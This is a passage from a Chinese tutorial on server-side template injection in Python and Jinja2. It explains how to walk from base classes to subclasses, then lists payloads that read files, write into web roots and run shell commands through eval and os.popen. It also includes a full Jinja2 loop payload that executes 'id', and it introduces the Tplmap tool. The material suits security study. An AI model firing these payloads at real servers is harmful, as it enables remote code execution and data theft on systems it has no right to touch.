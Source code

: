 当然我们也可以直接用object.__subclasses__()，会得到和上面一样的结果。
获取基类还能用还有__mro__，比如：
```python
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
>>> [].__class__.__mro__
(<class 'list'>, <class 'object'>)
>>> {}.__class__.__mro__
(<class 'dict'>, <class 'object'>)
>>> ().__class__.__mro__
(<class 'tuple'>, <class 'object'>)

>>> ().__class__.__mro__[1]            //使用索引就能获取基类了
<class 'object'>
```
这样我们在进行SSTI注入的时候就可以通过这种方式使用很多的类和方法，通过子类再去获取子类的子类，更多的方法大家可以去发现和搜集。
# 五、一些常用的方法
```python
//获取基本类
''.__class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
object

//读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
object.__subclasses__()[40](r'C:\1.php').read()

//写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')

//执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
object.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```
上面漏洞复现时候的payload也是很强了，用类于编程的方式来展现，不用再一个个去查索引了：
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}         //poppen的参数就是要执行的命令
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
有的时候还是需要绕过和沙箱逃逸才能实现SSTI的。
# 六、SSTI神器–Tplmap
先给出下载地址：https://github.com/epinna/tplmap
需要环境：PyYaml
```p
pip install PyYaml
```
## 1、简单使用